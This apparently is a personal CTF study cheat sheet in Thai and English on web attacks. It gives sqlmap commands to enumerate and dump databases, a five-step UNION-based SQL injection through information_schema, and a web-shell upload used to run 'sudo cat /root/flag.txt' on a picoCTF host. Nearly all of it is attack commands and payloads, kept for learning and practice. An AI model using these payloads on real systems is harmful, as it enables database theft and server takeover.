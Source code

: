 #web 
# Database
## Knowlage
DB => tables => columns => data
# SQL Map
[[SQLMap]]
## Normal
### Command
```bash
sqlmap -u http://IP/prd.php?id=34 --dbs
sqlmap -u http://IP/prd.php?id=34 -D goku --tables
sqlmap -u http://IP/prd.php?id=34 -D goku -T tbl_type --dump
```
## Advance
### Command
หา request จาก Burpsuit copy save txt sql.txt
```bash
sqlmap -r sql.txt --dbs -p id
sqlmap -r sql.txt -p id -D goko --tables
```
ทำเหมือน Normal
# Union
## Step
1. หาว่ามีกี่ column
```
http://example.com/index.php?id=1' ORDER BY 1-- -
```
2. ดึง database ออกมา 1,3,4 เป็น dummy ให้ครบตามจำนวน column
```
http://example.com/index.php?id=1' UNION SELECT 1,schema_name,3,4 FROM information_schema.schemata-- -
```
3. ดึง table ออกมา
```
http://example.com/index.php?id=1' UNION SELECT 1, table_name, 3, 4 FROM information_schema.tables WHERE table_schema = 'flag'-- -
```
4. ดึง column ออกมา
```
http://example.com/index.php?id=1' UNION SELECT 1, column_name, 3, 4 FROM information_schema.columns WHERE table_name = 'secret_table'-- -
```
5. ดึง ข้อมูล ออกมา
```
http://example.com/index.php?id=1' UNION SELECT 1,secretID,secret_value,4 FROM flag.secret_table-- -
```
# File
## Shell.php
1. upload shell.php
![[shell.php]]
2. พิมคำสั่งใน url
```
http://standard-pizzas.picoctf.net:60722/uploads/shell.php?cmd=sudo cat /root/flag.txt
```